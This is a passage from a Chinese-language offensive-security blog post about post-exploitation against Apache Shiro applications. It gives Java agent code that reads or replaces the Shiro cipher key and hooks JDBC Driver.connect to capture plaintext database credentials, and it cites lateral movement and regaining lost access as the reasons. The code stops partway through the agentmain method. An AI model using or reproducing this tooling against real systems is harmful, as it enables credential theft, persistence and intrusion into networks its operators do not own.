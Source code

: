 ```plain
setCipherKey(org.apache.shiro.codec.Base64.decode(temp));
// temp 传入修改的 shiro 的值
```

- - -

#### [获取 shiro 的 key](#toc_shirokey_1)

为什么我们需要获取 shiro 的 key 呢？其实这才是我最开始想做的事情，修改 key 只是后来想到加上去的。本意和北辰的文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)类似，但也有不同的地方。我们来假设一个场景来帮助大家来理解，如果我们一个站点存在 shiro，但我们跑不出 key。但我们通过了其他 RCE 或者任意文件上传的手段获取到了 shell，这时候我们就可以通过本文中的工具去获取 shiro 的 key 值。我们都获取到了 shell，为什么还要获取 key 呢？

1.  可以方便我们快速的实现内网横向，毕竟 shiro 这个漏洞利用已经非常非常成熟了。
2.  可以将这个 key 加入我们 key 字典中，方便之后的项目中测试。
3.  如果我们修改 key，但我们一失手忘记掉了 key，也还要补救的措施。
4.  如果点掉了，可以通过 shiro 这个入口快速重新切进去。

目前我和师傅 hl0rey 所能想到获取 shiro 的 key 的四点价值，这么来看获取 key 是非常有必要的功能。

具体实现代码其实也非常的简单，最终笔者将北辰师傅获取 JDBC 字符串、修改 key 和获取 key 三个功能整合在了一起，加了一个判断。

```plain
fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());
```

最终完整的实现代码如下：

```plain
    public static void agentmain(String agentArg, Instrumentation inst){
        arg2 = agentArg;
        Class[] classes  = inst.getAllLoadedClasses();

        for (int i = 0; i < classes.length; i++) {
            Class clazz = classes[i];
            try {
                // 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法 方法desc有getMethodSignature方法获取
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
//                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
            }catch (Throwable e){
                e.printStackTrace();
            }
        }


        Class cls = null;
```